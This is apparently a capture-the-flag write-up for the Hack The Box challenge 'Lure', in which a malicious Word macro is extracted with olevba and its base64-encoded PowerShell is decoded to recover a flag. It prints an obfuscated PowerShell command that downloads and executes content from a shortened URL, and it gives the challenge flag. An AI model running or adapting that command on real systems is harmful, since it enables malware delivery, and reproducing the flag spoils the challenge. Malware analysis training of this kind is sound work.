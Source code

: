 # Lure
> Write-up author: jon-brandy
## DESCRIPTION:
The finance team received an important looking email containing an attached Word document. Can you take a look and confirm if it's malicious?
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211131398-7fe32b81-8d0d-417d-be05-06fddd22711f.png)


![image](https://user-images.githubusercontent.com/70703371/211131404-025500cc-086c-4b5c-b1c6-fd4ff6d571bf.png)


2. Based from the description, we shall use `olevba` to extract any malicious macros.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/211131463-20ce1dc1-d175-4646-8442-898c609ac63c.png)


![image](https://user-images.githubusercontent.com/70703371/211131473-6675dbc2-9962-4df5-acb3-7200004cd642.png)


3. Notice there's an encoded powershell command.
4. Let's try with base64 first.

> RESULT - CORRECT 

![image](https://user-images.githubusercontent.com/70703371/211131560-1620cf11-d8e1-443a-a03a-cb7ff63ff9c5.png)


```
pOwErshElL $(-jOiN(($PshOMe[4]),("$PsHoME")[+15],"x");)(iwr $(("{5}{25}{8}{7}{0}{14}{3}{21}{2}{22}{15}{16}{31}{28}{11}{26}{17}{23}{27}{29}{10}{1}{6}{24}{30}{18}{13}{19}{12}{9}{20}{4}"-f "B","U","4","B","%7D","ht","R_d","//ow.ly/HT","p:","T","0","_","N","M","%7","E","f","1T","u","e","5","k","R","h","0","t","w","_","l","Y","C","U")))
```

5. Hmm.. I think we should run this at powershell (?)
6. But let's paste only this strings:

```
$(("{5}{25}{8}{7}{0}{14}{3}{21}{2}{22}{15}{16}{31}{28}{11}{26}{17}{23}{27}{29}{10}{1}{6}{24}{30}{18}{13}{19}{12}{9}{20}{4}"-f "B","U","4","B","%7D","ht","R_d","//ow.ly/HT","p:","T","0","_","N","M","%7","E","f","1T","u","e","5","k","R","h","0","t","w","_","l","Y","C","U"))
```

7. Then enter.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211131667-9f5415ae-7573-4957-b73d-fb1da56f588e.png)


8. Got the flag! But paste it on cyberchef and choose `decode URL`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211131697-e53cf8f7-58d9-4926-8704-c3d594e3eb2c.png)



## FLAG

```
HTB{k4REfUl_w1Th_Y0UR_d0CuMeNT5}
```
